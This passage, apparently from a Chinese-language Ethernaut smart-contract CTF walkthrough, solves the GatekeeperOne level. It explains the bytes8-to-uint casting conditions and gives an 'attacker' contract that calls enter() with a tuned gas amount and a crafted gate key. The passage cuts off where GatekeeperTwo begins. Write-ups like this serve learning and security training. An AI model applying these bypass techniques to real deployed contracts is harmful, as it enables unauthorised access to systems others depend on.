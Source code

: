 ```

3. uint于bytes类型转换的问题，参数为bytes8类型，bytes8占用8byte，也就是64bit；转换为uintxx时的规则为按照从低位第0位开始取指定位数，那么
- 要满足uint32(_gateKey) == uint16(_gateKey)， 表示从低位以第0位开头数，第16~31位应为0
- 要满足uint32(_gateKey) != uint64(_gateKey)，表示从低位以第0位开头数，第32~63位应不为0
- 要满足uint32(_gateKey) == uint16(tx.origin)，表示从低位以第0位开头数，第16~31位应为0，第0~15位应为tx.origin的0~15位
**答案**
```
/**
 *Submitted for verification at Etherscan.io on 2018-05-05
*/

pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

//msg.sender是0xCFe860f5b2865941d93A3526119b9435Cc2aC0b5
contract attacker{
    function attach(address gkAddr) public {
        GatekeeperOne(gkAddr).enter.gas(215+8191*10)(0x119b94350000c0b5);
    }
}
```
### 14. GatekeeperTwo


**题目源码**：
```
pragma solidity ^0.4.18;

contract GatekeeperTwo {
